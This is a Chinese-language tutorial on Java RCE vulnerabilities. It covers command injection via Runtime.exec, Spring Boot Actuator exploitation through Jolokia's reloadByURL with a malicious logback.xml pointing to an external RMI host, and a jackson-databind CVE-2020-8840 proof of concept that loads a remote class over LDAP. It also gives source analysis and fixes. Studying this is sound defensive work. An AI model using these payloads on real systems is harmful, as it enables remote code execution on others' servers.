# 春眠不觉晓，RCE知多少？

# 前言

- 读者受众：所有人
- 阅读要求：30mins
- 文章中2620还没写完，清水川崎大佬就爆2634了，据说他还藏了很多个0day


---

# RCE

## 简单案例分析RCE



   通过Java执行系统命令，与cmd中或者终端上一样执行shell命令，最典型的用法就是使用Runtime.getRuntime().exec(command)或者new ProcessBuilder(cmdArray).start()。

```java
//漏洞源码
public String CommandExec(HttpServletRequest request) {
        String cmd = request.getParameter("cmd").toString();
        Runtime run = Runtime.getRuntime();
        String lineStr = "";

        try {
            Process p = run.exec(cmd);
            BufferedInputStream in = new BufferedInputStream(p.getInputStream());
            BufferedReader inBr = new BufferedReader(new InputStreamReader(in));
            String tmpStr;

            while ((tmpStr = inBr.readLine()) != null) {
                lineStr += tmpStr + "\n";
                System.out.println(tmpStr);
            }
```

**漏洞成因分析**

```plain
flowchat
st=>start: 开始获取cmd参数值
e=>end: 输出返回值
op1=>operation: 执行命令（过程类似Runtime.getRuntime().exec(command)）
st->op1->e
```

   流程图显示的代码执行的过程，不难发现我们没有看到过滤参数，判断参数是否输入正确的一系列操作，从而导致的`命令执行漏洞`。

**说明：**

1. process指向一个本地进程，相对于main进程来说，process指向的称为子进程。[^1](https://blog.csdn.net/dataiyangu/article/details/83988654)
2. BufferedInputStream 是缓冲输入流，它继承FilterInputStream类。BufferedInputStream 的作用是为另一个输入流添加一些功能，例如，提供“缓冲功能”以及支持“mark()标记”和“reset()重置方法”。BufferedInputStream 本质上是通过一个内部缓冲区数组实现的。例如，在新建某输入流对应的BufferedInputStream后，当我们通过read()读取输入流的数据时，BufferedInputStream会将该输入流的数据分批的填入到缓冲区中。每当缓冲区中的数据被读完之后，输入流会再次填充数据缓冲区；如此反复，直到我们读完输入流数据位置。[^2]

---

## 知识内容补充

**继续阅读下面的内容，你需要补充更多知识。**

1. Java序列化和反序列化
2. RMI、JRMP、JMX、JNDI
3. JNDI注入原理

笔者在此，做一个简单介绍。

- Java序列化对象因其可以方便的将对象转换成字节数组，又可以方便快速的将字节数组反序列化成Java对象而被非常频繁的被用于Socket传输。 在RMI(Java远程方法调用-Java Remote Method Invocation)和JMX(Java管理扩展-Java Management Extensions)服务中对象反序列化机制被强制性使用。在Http请求中也时常会被用到反序列化机制，如：直接接收序列化请求的后端服务、使用Base编码序列化字节字符串的方式传递等。
- Java RMI用于不同虚拟机之间的通信，这些虚拟机可以在不同的主机上、也可以在同一个主机上；一个虚拟机中的对象调用另一个虚拟上中的对象的方法，只不过是允许被远程调用的对象要通过一些标志加以标识。
- JRMP（ Java Remote Method Protocol）协议通信，用于规范远程方法调用的协议
- Java命名和目录接口（Java Naming and Directory Interface，缩写JNDI），是Java的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。
- 关于JNDI注入百度有很多文章，推荐[深入理解JNDI注入与Java反序列化漏洞利用](https://www.freebuf.com/column/189835.html)、[JNDI注入原理及利用](https://xz.aliyun.com/t/6633)

**推荐文章：**

- [Java 序列化/反序列化](https://javasec.org/javase/JavaDeserialization/Serialization.html)
- [基于Java反序列化RCE - 搞懂RMI、JRMP、JNDI](https://xz.aliyun.com/t/7079)
- [搞懂RMI、JRMP、JNDI-终结篇](https://xz.aliyun.com/t/7264)
- [MicroFocus研究论文(纯英文)](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)

---

## Spring Boot Actuators to RCE

   Actuator 是 springboot 提供的用来对应用系统进行自省和监控的功能模块，借助于 Actuator 开发者可以很方便地对应用系统某些监控指标进行查看、统计等。在 Actuator 启用的情况下，如果没有做好相关权限控制，非法用户可通过访问默认的执行器端点（endpoints）来获取应用系统中的监控信息。

   使用老外提供的源码，用mvn编译运行。[GitHub项目地址](https://github.com/veracode-research/actuator-testbed)直接访问`http://127.0.0.1:8090/jolokia/list`  
或者修改ip和端口`actuator-testbed\src\main\resources\application.properties`

  
  
  
   上面的`reloadByURL`可以加载一个外部URL进而重新加载日志配置，结果造成了RCE。我们需要构造一个恶意logback.xml的URL。  
`http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/httpserver_ip/logback.xml`

```xml
//下面是logback.xml内容

<configuration>
  <insertFromJNDI env-entry-name="rmi://artsploit.com:1389/jndi" as="appName" />
</configuration>
```

rmi和ldap服务都能触发这个漏洞，笔者在这里选择rmi服务。

  
**简单的触发流程流程图：**

```plain
flowchat
st=>start: Spring-boot-actuator
e=>end: RCE
op=>operation: Jolokia
op2=>operation: RMI
cond=>condition: logback.xml?

st->op->op2->cond
cond(yes)->e
cond(no)->op2
```

---

**源码分析**

1. 第一步会先注册jolokia  
   
2. <http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/httpserver_ip/logback.xml>  
   看上面URL分析`reloadByURL`很重要，看一下源码

   ```java
   public void reloadByURL(URL url) throws JoranException {
          StatusListenerAsList statusListenerAsList = new StatusListenerAsList();

          addStatusListener(statusListenerAsList);
          addInfo("Resetting context: " + loggerContext.getName());
          loggerContext.reset();

          // after a reset the statusListenerAsList gets removed as a listener
          addStatusListener(statusListenerAsList);

          try {
              if (url != null) {
                  JoranConfigurator configurator = new JoranConfigurator();
                  configurator.setContext(loggerContext);
                  configurator.doConfigure(url);
                  addInfo("Context: " + loggerContext.getName() + " reloaded.");
              }
          } finally {
              removeStatusListener(statusListenerAsList);
              if (debug) {
                  StatusPrinter.print(statusListenerAsList.getStatusList());
              }
          }
      }
   ```

   不难发现下面三行代码是关键，重置日志配置。

   ```java
   addStatusListener(statusListenerAsList);
         addInfo("Resetting context: " + loggerContext.getName());
         loggerContext.reset();
   ```

**推荐文章**

[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)  
[Attack Spring Boot Actuator via jolokia Part 2](https://www.anquanke.com/post/id/173265)[关于此漏洞更多的骚操作参考](https://xz.aliyun.com/t/4259)

---

**代码审计关键词**

```plain
trace
health
loggers
metrics
autoconfig
heapdump
threaddump
env
info
dump
configprops
mappings
auditevents
beans
jolokia
cloudfoundryapplication
hystrix.stream
actuator
actuator/auditevents
actuator/beans
actuator/health
actuator/conditions
actuator/configprops
actuator/env
actuator/info
actuator/loggers
actuator/heapdump
actuator/threaddump
actuator/metrics
actuator/scheduledtasks
actuator/httptrace
actuator/mappings
actuator/jolokia
actuator/hystrix.stream
```

---

**防护措施**  
   在使用Actuator时，不正确的使用或者一些不经意的疏忽，就会造成严重的信息泄露等安全隐患。在代码审计时如果是springboot项目并且遇到actuator依赖，则有必要对安全依赖及配置进行复查。也可作为一条规则添加到黑盒扫描器中进一步把控。  
   安全的做法是一定要引入security依赖，打开安全限制并进行身份验证。同时设置单独的Actuator管理端口并配置不对外网开放。  
更多防护措施参考[SpringBoot应用监控Actuator使用的安全隐患](https://xz.aliyun.com/t/2233)

---

## CVE-2020-8840 FasterXML/jackson-databind 远程代码执行漏洞

**FasterXML/jackson-databind是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。**

```java
//漏洞POC
public class Poc {
    public static void main(String args[]) {
        ObjectMapper mapper = new ObjectMapper();

        mapper.enableDefaultTyping();

        String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/Exploit\"}]";

        try {
            mapper.readValue(json, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }

    }
}
```



---

我们查看官方的漏洞源码提交修复记录[GitHub地址](https://github.com/FasterXML/jackson-databind/commit/914e7c9f2cb8ce66724bf26a72adc7e958992497)分析。  


- 查看POC ，找到JndiConverter类

  ```java
  String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\",{\"asText\":\"ldap://localhost:1389/Exploit\"}]";
  ```

  
- 查看类的继承关系，找到AbstractConverter类



- 找到toObject方法，证据不足，继续溯源。

  ```java
  public final Object toObject(String text) {
          if (text == null) {
              return null;
          } else {
              Object value = this.toObjectImpl(this.trim ? text.trim() : text);
              return value;
          }
      }
  ```
- 证据充分，此是内奸。重置text内容导致RCE。

  ```java
  public final void setAsText(String text) {
          Object value = this.toObject(this.trim ? text.trim() : text);
          super.setValue(value);
      }
  ```

  

---

**思路整理**

```plain
flowchat
st=>start: 开始
e1=>end: 结束
e2=>end: RCE
op1=>operation: POC字符串
op2=>operation: JndiConverter->toObjectImpl方法
op3=>operation: AbstractConverter->setAsText方法
op4=>operation: 请求ldap://localhost:1389/Exploit
op5=>operation: Send LDAP reference result for Exploit redirecting to http://localhost:8080/Exploit.class
op6=>operation: http://localhost:8080/Exploit.class
cond=>condition: RCE？

st->op1->op2->op3->cond->op4->op5->op6->e2
cond(yes)->op4
cond(no)->e1
```

---

**修复方式**  
4. 升级 jackson-databind 至2.9.10.3、2.8.11.5、2.10.x  
5. 排查项目中是否使用 xbean-reflect。该次漏洞的核心原因是xbean-reflect 中存在特殊的利用链允许用户触发 JNDI 远程类加载操作。将xbean-reflect移除可以缓解漏洞所带来的影响。

---

# 推荐几个历史版本RCE

1. com.threedr3am.bug.fastjson.FastjsonSerialize(TemplatesImpl) 利用条件：fastjson <= 1.2.24 + Feature.SupportNonPublicField
2. com.threedr3am.bug.fastjson.NoNeedAutoTypePoc 利用条件：fastjson < 1.2.48 不需要任何配置，默认配置通杀RCE
3. com.threedr3am.bug.fastjson.HikariConfigPoc(HikariConfig) 利用条件：fastjson <= 1.2.59 RCE，需要开启AutoType
4. com.threedr3am.bug.fastjson.CommonsProxyPoc(SessionBeanProvider) 利用条件：fastjson <= 1.2.61 RCE，需要开启AutoType
5. cas-4.1.x~4.1.6 反序列化漏洞（利用默认密钥）
6. cas-4.1.7~4.2.x 反序列化漏洞（需要知道加密key和签名key）

---

# 参考

<https://github.com/JoyChou93/java-sec-code/wiki>  
<http://www.jianfensec.com/70.html>  
<https://www.cnblogs.com/tr1ple/p/12348886.html>  
[^2]: <https://www.cnblogs.com/isme-zjh/p/11506495.html>  
<https://github.com/jas502n/CVE-2020-8840>  
<https://github.com/fairyming/CVE-2020-8840>
